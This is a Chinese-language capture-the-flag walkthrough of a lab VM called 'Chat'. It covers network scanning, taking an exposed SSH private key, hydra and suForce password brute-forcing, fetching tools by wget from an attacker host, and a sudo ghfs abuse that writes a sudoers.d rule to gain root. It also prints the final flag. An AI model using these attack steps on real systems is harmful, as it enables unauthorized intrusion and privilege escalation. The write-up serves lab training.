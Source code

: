 # **一、信息收集**

## **1. 主机发现**

首先，在本地网络中使用 `arp-scan` 工具扫描存活主机，确定目标靶机的 IP 地址为 `192.168.205.248`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.248 08:00:27:60:fd:c6       PCS Systemtechnik GmbH
...
```

## **2. 端口与服务扫描**

使用 `nmap` 对目标主机进行端口和服务扫描，发现其开放了 22 (ssh-chat)、2222 (OpenSSH) 和 8000 (HTTP) 三个端口。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p22,2222,8000 -sC -sV 192.168.205.248
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-04 23:30 EDT
Nmap scan report for 192.168.205.248
Host is up (0.00033s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     (protocol 2.0)
| fingerprint-strings:
|_  NULL: SSH-2.0-Go ssh-chat
2222/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
8000/tcp open  http    Golang net/http server
|_http-title: /
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

*   **22/tcp**: 一个基于 Go 的 `ssh-chat` 服务。
*   **2222/tcp**: 标准的 OpenSSH 服务，是主要的突破口。
*   **8000/tcp**: 一个由 Golang 实现的 HTTP 文件服务器。

### **3. Web 服务探索**

访问 8000 端口，发现是一个文件目录浏览页面。通过页面内容，发现了一个 `.ssh` 目录，这通常存放用户的 SSH 密钥。

在 `.ssh` 目录中，找到了用户的公钥 `authorized_keys` 和私钥 `id_rsa`。将私钥下载到本地，尝试用于后续的登录。

# **二、初始访问**

## **1. 漏洞利用：SSH 弱口令爆破**

首先尝试使用从 Web 服务下载的私钥登录 2222 端口的 SSH 服务，但以失败告终。随后，尝试用同一私钥登录运行在 22 端口的 ssh-chat 服务，这次登录成功了。但在进一步探索中，并未发现其他有价值的线索。值得注意的是，`ssh-chat` 服务的当前用户为 `scycree`，且登录横幅中提到了`todd`，这可能是一个重要提示。

因此，决定对 2222 端口的 SSH 服务进行弱口令爆破。使用 `hydra` 工具，以 `todd` 和 `scycree` 为用户名字典，结合常用密码字典进行爆破。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cat user
todd
scycree
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ hydra -L user -P 5000q.txt ssh://192.168.205.248:2222 -I -u -f -e nsr -t 64
...
[2222][ssh] host: 192.168.205.248   login: todd   password: todd
...
```

爆破成功，获得用户 `todd` 的密码为 `todd`。

## **2. 获取 Shell**

使用获取的凭据 `todd:todd` 成功通过 SSH 登录到目标系统。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh todd@192.168.205.248 -p 2222
todd@192.168.205.248's password: todd
...
todd@Chat:~$ id
uid=1001(todd) gid=1001(todd) groups=1001(todd)
```

# **三、权限提升**

## **1. 水平提升：todd -> scycree**

登录 `todd` 账户后，发现当前权限较低。的目标是提升至 `root` 权限。注意到系统上还存在另一个用户 `scycree`。尝试爆破 `scycree` 用户的密码。

首先，将本地的密码爆破工具 `suForce` 和字典 `rockyou.txt` 上传到靶机的 `/tmp` 目录。

```bash
todd@Chat:/tmp$ wget 192.168.205.128/suForce
todd@Chat:/tmp$ wget 192.168.205.128/rockyou.txt
todd@Chat:/tmp$ chmod +x suForce
```

然后执行爆破：

```bash
todd@Chat:/tmp$ ./suForce -u scycree -w rockyou.txt
...
💥 Password | welcome
...
```

成功爆破出 `scycree` 用户的密码为 `welcome`。使用 `su` 命令切换到 `scycree` 用户。

```bash
todd@Chat:/tmp$ su scycree
Password: welcome
scycree@Chat:/tmp$ id
uid=1000(scycree) gid=1000(scycree) groups=1000(scycree)
```

## **2. 垂直提升：scycree -> root**

切换到 `scycree` 用户后，执行 `sudo -l` 查看其 `sudo` 权限。

```bash
scycree@Chat:/tmp$ sudo -l
Matching Defaults entries for scycree on Chat:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User scycree may run the following commands on Chat:
    (ALL) NOPASSWD: /usr/bin/ghfs
```

发现 `scycree` 用户可以无密码以 `root` 权限执行 `/usr/bin/ghfs` (Go HTTP File Server)。`ghfs` 带有文件上传功能，这构成了严重的安全漏洞。可以利用这个权限，向 `/etc/sudoers.d/` 目录上传一个恶意的 `sudo` 配置文件，从而授予自己完全的 `root` 权限。

首先，以 `root` 权限启动 `ghfs`，并将其根目录和上传目录都设置为 `/etc/sudoers.d/`。

```bash
scycree@Chat:/tmp$ sudo /usr/bin/ghfs -r /etc/sudoers.d/ --upload-dir /etc/sudoers.d/
```

接着，在本地创建一个文件，内容为赋予 `scycree` 用户所有命令的无密码 `sudo` 权限。

```bash
# 在攻击机上执行
echo "scycree ALL=(ALL:ALL) NOPASSWD: ALL" > a
```

然后，通过浏览器或 `curl` 访问 `ghfs` 提供的 Web 服务 (`http://192.168.205.248:8080`)，将 `a` 文件上传。

上传成功后，`scycree` 的 `sudo` 权限被更新。此时，再次执行 `sudo -l` 可以看到新增的权限。

```bash
scycree@Chat:/tmp$ sudo -l
...
User scycree may run the following commands on Chat:
    (ALL) NOPASSWD: /usr/bin/ghfs
    (ALL : ALL) NOPASSWD: ALL
```

最后，执行 `sudo bash` 即可获得一个 `root` shell。

```bash
scycree@Chat:/tmp$ sudo bash
root@Chat:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

# **四、夺取旗帜**

成功获取 `root` 权限后，读取位于 `/root` 目录下的最终 `flag`。

```bash
root@Chat:/tmp# cat /root/root.txt
flag{root-c448ebd8ddef14820eef632ffe833f3c}
```

至此，渗透测试完成。
